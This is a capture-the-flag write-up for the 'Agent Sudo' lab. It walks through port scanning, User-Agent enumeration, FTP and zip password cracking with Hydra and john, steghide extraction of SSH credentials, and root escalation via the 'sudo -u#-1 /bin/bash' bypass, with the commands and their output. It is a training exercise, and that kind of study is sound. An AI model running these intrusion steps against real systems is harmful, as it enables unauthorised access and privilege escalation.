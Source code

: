 # Agent Sudo -- CTF Writeup -- Web Enumeration, Steganography, SSH Access, and Sudo Privilege Escalation

> Short summary  
> Initial access was gained via web enumeration with custom User-Agent headers, revealing a hint for weak credentials. Used FTP to retrieve files, extracted hidden zip and steganography data to obtain SSH credentials for `james`. SSH login provided user-level access and a user flag. Privilege escalation achieved via sudo misconfiguration using the `sudo -u#-1 /bin/bash` technique to spawn a root shell and read `/root/root.txt`.

---

## Target
- IP: `10.201.41.224`
- Room: Agent Sudo
- Scan date (local notes): 2025-09-12

---

## 1 — Recon / Port scan

Command:
```bash
nmap -sS 10.201.41.224
```

Key output:
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Notes: FTP, SSH, and HTTP were open. Anonymous FTP was disabled. Webserver required custom User-Agent headers.

---

## 2 — Web enumeration

Website message on port 80:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

Using curl to iterate User-Agent values (single letters) revealed a valid agent `C`:
```bash
curl -A "C" -L 10.201.41.224
```

Response indicated `Chris` has a weak password, hinting at FTP/SSH login credentials.

---

## 3 — FTP enumeration

Logged in with credentials found via Hydra (`chris:crystal`):
```bash
ftp> open 10.201.41.224
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```

Downloaded and inspected `To_agentJ.txt`:
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Other files (images) contained hidden information.

---

## 4 — Steganography / hidden data extraction

### Extracting hidden zip from `cutie.png`
```bash
unzip cutie.png
# warning about extra bytes; attempting 7z instead
```

### Using zip2john and john to crack the zip
```bash
zip2john hidden.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
# password found: alien
```

### Reading `To_agentR.txt`
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
- Base64 decoded (`QXJlYTUx`) → `Area51` — used as agent J's password.

### Extracting steganography from `cute-alien.jpg`
```bash
steghide info cute-alien.jpg
steghide extract -sf cute-alien.jpg
cat message.txt
```
```
Hi james,

Glad you find this message. Your login password is hackerrules!
```

---

## 5 — SSH login and user flag

SSH using credentials `james:hackerrules`:
```bash
ssh james@10.201.41.224
```

Located user files:
```bash
ls
Alien_autospy.jpg  user_flag.txt
cat user_flag.txt
```

Copied `Alien_autospy.jpg` back to local machine and verified with reverse image search.

---

## 6 — Privilege escalation

Transferred linPEAS for enumeration:
```bash
scp linPEAS/linpeas.sh james@10.201.41.224:/tmp/
```

Checked sudo permissions:
```bash
sudo -l
```

Output:
```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Exploited misconfiguration using `sudo -u#-1 /bin/bash`:
```bash
sudo -u#-1 /bin/bash
whoami
# root
```

---

## 7 — Root flag

With root privileges:
```bash
cat /root/root.txt
%flag removed%
```

---

## 8 — Post-exploit notes & cleanup

- Remove tools and credentials after use.
- User `james` had SUDO misconfiguration allowing root escalation — never allow `(ALL, !root) /bin/bash` in production.
- Steganography and hidden zip files can reveal passwords — always check for hidden data in public resources.

---

## 9 — References

- linPEAS (PEASS-ng) — https://github.com/carlospolop/PEASS-ng  
- Exploit-DB Sudo Misconfiguration: https://www.exploit-db.com/exploits/47502  
- Steghide — https://steghide.sourceforge.net/  
- CyberChef — https://gchq.github.io/CyberChef/  

---

## 10 — Appendix: commands used

```bash
# Recon
nmap -sS 10.201.41.224

# Web enumeration
curl -A "C" -L 10.201.41.224

# FTP
ftp 10.201.41.224
# download To_agentJ.txt, cutie.png, cute-alien.jpg

# Extract zip from png
unzip cutie.png
zip2john hidden.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
cat To_agentR.txt

# Stego
steghide info cute-alien.jpg
steghide extract -sf cute-alien.jpg
cat message.txt

# SSH
ssh james@10.201.41.224
cat user_flag.txt
scp Alien_autospy.jpg /image.jpg

# Privilege escalation
scp linpeas.sh james@10.201.41.224:/tmp/
sudo -u#-1 /bin/bash
cat /root/root.txt
```
